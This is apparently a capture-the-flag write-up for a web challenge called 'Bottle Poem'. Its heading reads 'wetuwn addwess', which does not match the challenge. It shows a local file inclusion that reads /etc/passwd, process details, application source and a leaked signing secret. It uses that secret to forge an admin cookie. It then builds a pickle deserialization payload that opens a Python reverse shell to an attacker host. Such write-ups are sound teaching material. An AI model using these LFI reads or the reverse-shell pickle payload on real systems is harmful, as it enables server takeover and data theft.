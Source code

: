 # wetuwn addwess

## Challenge

> Come and read poems in the bottle.<br>
> No bruteforcing is required to solve this challenge. Please do not use scanner tools. Rate limiting is applied. Flag is executable on server.

---

## Walkthrough

The challenges landing page lead us to an obvious LFI exploit at `/show?id=spring.txt`.

```
/show?id=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

`/etc/shadow` didn't work meaning the application wasn't running with superuser permission. I tried `/flag` but it wasn't going to be that easy.

Next I tried reading from `/proc/<PID>` to find more information about the process running the webserver. I found it running with a pid of 1.

```txt
/show?id=/proc/1/cmdline

python -u /app/app.py
```

Nice. Let's get the source code

```py
# /show?id=/app/app.py

# ...
from config.secret import sekai

@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
# ...
```

You can view the full file [here](./app.py) but the focus was clearly to exploit `/sign` to get admin permission. Fortunately the secret was imported from `config.secret`.

```py
# /show?id=/app/config/secret.py

sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Nice. To generate the right cookie I made my own bottle server.

```py
# ...
@route("/")
def index():
    sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
    value = {"name": "admin"}
    response.set_cookie("name", value, secret=sekai)
```

Copying this cookie to bottle poem's storage got me into admin! But it was useless...

![admin_panel.png](admin_panel.png)

Looking into bottle's source code I noticed that we can execute a `pickle.loads()` if we had the secret. Looks promising!

```py
def get_cookie(self, key, default=None, secret=None):
    value = self.cookies.get(key)
    if secret and value:
        dec = cookie_decode(value, secret)

def cookie_decode(data, key):
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg)) # <- looks like pickle!
```

For those unaware python pickling is vulnerable to RCE on decoding as it's not meant to be used with user controlled input.

I modified my bottle server to generate an RCE exploit cookie that I could pass into bottle poem.

```py
class RCE:
    def __reduce__(self):
        # I used python since we can guarentee it's installed on the system
        cmd = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<ommited>\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
        return os.system, (cmd,)

@route("/")
def index():
    value = RCE()
    response.set_cookie("name", value, secret=sekai)
```

Sure enough I passed it into bottle poem and gg.

![flag.png](flag.png)

---

## Solve

`SEKAI{W3lcome_To_Our_Bottle}`
